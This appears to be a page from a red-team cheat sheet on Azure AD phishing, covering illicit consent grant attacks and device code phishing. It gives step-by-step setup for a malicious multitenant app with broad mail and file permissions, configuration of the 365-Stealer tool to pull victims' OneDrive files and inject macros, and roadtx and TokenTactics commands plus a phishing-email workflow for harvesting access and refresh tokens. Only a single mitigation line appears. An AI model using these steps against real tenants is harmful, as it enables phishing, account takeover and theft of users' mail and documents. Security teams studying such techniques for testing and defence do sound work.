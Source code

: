 # Azure AD Phishing

## Illicit Consent Grant

> The attacker creates an Azure-registered application that requests access to data such as contact information, email, or documents. The attacker then tricks an end user into granting consent to the application so that the attacker can gain access to the data that the target user has access to. 

Check if users are allowed to consent to apps: `PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole`

* **Disable user consent** : Users cannot grant permissions to applications.   
* **Users can consent to apps from verified publishers or your organization, but only for permissions you select** : All users can only consent to apps that were published by a verified publisher and apps that are registered in your tenant    
* **Users can consent to all apps** : allows all users to consent to any permission which doesn't require admin consent.    
* **Custom app consent policy**   

### Register Application

1. Login to https://portal.azure.com > Azure Active Directory
2. Click on **App registrations** > **New registration**
3. Enter the Name for our application
4. Under support account types select **"Accounts in any organizational directory (Any Azure AD directory - Multitenant)"**
5. Enter the Redirect URL. This URL should be pointed towards our 365-Stealer application that we will host for hosting our phishing page. Make sure the endpoint is `https://<DOMAIN/IP>:<PORT>/login/authorized`.
6. Click **Register** and save the **Application ID**

### Configure Application

1. Click on `Certificates & secrets`
2. Click on `New client secret` then enter the **Description** and click on **Add**.
3. Save the **secret**'s value.
4. Click on API permissions > Add a permission
5. Click on Microsoft Graph > **Delegated permissions**
6. Search and select the below mentioned permissions and click on Add permission
    * Contacts.Read 
    * Mail.Read / Mail.ReadWrite
    * Mail.Send
    * Notes.Read.All
    * Mailboxsettings.ReadWrite
    * Files.ReadWrite.All 
    * User.ReadBasic.All
    * User.Read

### Setup 365-Stealer (Deprecated)

:warning: Default port for 365-Stealer phishing is 443

- Run XAMPP and start Apache
- Clone 365-Stealer into `C:\xampp\htdocs\`
    * `git clone https://github.com/AlteredSecurity/365-Stealer.git`
- Install the requirements
    * Python3
    * PHP CLI or Xampp server
    * `pip install -r requirements.txt`
- Enable sqlite3 (Xampp > Apache config > php.ini) and restart Apache
- Edit `C:/xampp/htdocs/yourvictims/index.php` if needed
    - Disable IP whitelisting `$enableIpWhiteList = false;`
- Go to 365-Stealer Management portal > Configuration (http://localhost:82/365-stealer/yourVictims)
    - **Client Id** (Mandatory): This will be the Application(Client) Id of the application that we registered.
    - **Client Secret** (Mandatory): Secret value from the Certificates & secrets tab that we created.
    - **Redirect URL** (Mandatory): Specify the redirect URL that we entered during registering the App like `https://<Domain/IP>/login/authorized` 
    - **Macros Location**: Path of macro file that we want to inject.
    - **Extension in OneDrive**: We can provide file extensions that we want to download from the victims account or provide `*` to download all the files present in the victims OneDrive. The file extensions should be comma separated like txt, pdf, docx etc. 
    - **Delay**: Delay the request by specifying time in seconds while stealing
- Create a Self Signed Certificate to use HTTPS
- Run the application either click on the button or run this command : `python 365-Stealer.py --run-app`
    - `--no-ssl`: disable HTTPS
    - `--port`: change the default listening port
    - `--token`: provide a specific token
    - `--refresh-token XXX --client-id YYY --client-secret ZZZ`: use a refresh token
- Find the Phishing URL: go to `https://<IP/Domain>:<Port>` and click on **Read More** button or in the console.

### Vajra

> Vajra is a UI-based tool with multiple techniques for attacking and enumerating in the target's Azure environment. It features an intuitive web-based user interface built with the Python Flask module for a better user experience. The primary focus of this tool is to have different attacking techniques all at one place with web UI interfaces. - https://github.com/TROUBLE-1/Vajra

**Mitigation**: Enable `Do not allow user consent` for applications in the "Consent and permissions menu".

### Roadtx

* Use the authorization code flow in roadtx to get token
```ps1
roadtx codeauth -c <app-id> -r msgraph -t <tenant-id> <0.A....> -ru 'https://<phish-app>/redir' -p <app-secret>
```


## Device Code Phishing

* Using roadtool: `roadtx gettokens -u user@domain.lab --device-code`
    ```ps1
    roadtx.exe auth --device-code -c 29d9ed98-a469-4536-ade2-f981bc1d605e
    Requesting token for resource https://graph.windows.net
    To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code XXXXXXXXX to authenticate.
    ```

* Using TokenTactics to request a token for Azure Graph API using a device code
    ```ps1
    Import-Module .\TokenTactics.psd1
    Get-AzureToken -Client Graph
    ```
* Replace `<REPLACE-WITH-DEVCODE-FROM-TOKENTACTICS>` in the [phishing email](https://github.com/rvrsh3ll/TokenTactics/blob/main/resources/DeviceCodePhishingEmailTemplate.oft)
* Leave TokenTactics running in the PowerShell window and send the phishing email
* Targeted user will follow the link to https://microsoft.com/devicelogin and complete the Device Code form
* Enjoy your **access token** and **refresh token**